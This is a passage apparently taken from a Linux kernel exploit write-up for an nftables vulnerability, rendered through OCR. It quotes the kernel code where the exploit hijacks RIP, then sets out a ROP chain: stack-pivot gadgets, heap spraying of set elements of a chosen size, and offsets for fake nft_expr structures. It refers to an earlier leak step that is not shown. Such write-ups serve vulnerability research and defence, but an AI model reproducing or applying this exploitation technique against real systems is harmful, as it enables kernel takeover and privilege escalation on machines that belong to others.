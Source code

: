   ```c
		if (expr->ops->dump) {
			struct nlattr *data = nla_nest_start_noflag(skb,
									NFTA_EXPR_DATA);
			if (data == NULL)
				goto nla_put_failure;
			if (expr->ops->dump(skb, expr) < 0) //we hijack RIP here
				goto nla_put_failure;
			nla_nest_end(skb, data);
		}
	...
  
  ```
### ROP detail

The assembly code when calling expr->ops->dump is as follows:

```
	mov qword ptr[rsp],rax
	ret
```
The `rsi` is the pointer of the current `nft_expr`, and it will be the start of `NFTA_SET_ELEM_DATA` when it comes to the fake `nft_expr`:


The first step of ROP start looks like this:
```
expr->ops->dump(skb, expr)  --> push rsi; jmp [rsi+0x44]
```
We spray elem with key(size=0x30),if there is another element after the vulnerability element, in the rsi+0x44(pointing to the next elem NFT_SET_EXT_KEY offset 0x10).We fill it with gadget `pop rsp;pop rbp;pop rbx;ret`

This will finally makes this happen:

```
rsp = rsi(element+0x68) // pop rsp

rbp = *(element + 0x70) = fake ops //pop rbp
rsp = element + 0x70 

rsp = element + 0x78  //pop rbx;ret
rip = *(element+0x78) = leave;ret
```
The second step of ROP is also:
```
leave; ret
```
After this, the `rsp` will be the value of the `NFTA_SET_ELEM_DATA[0]`. It will point to the heap, which we filled it with our ROP gadget in `Leak info` step 11.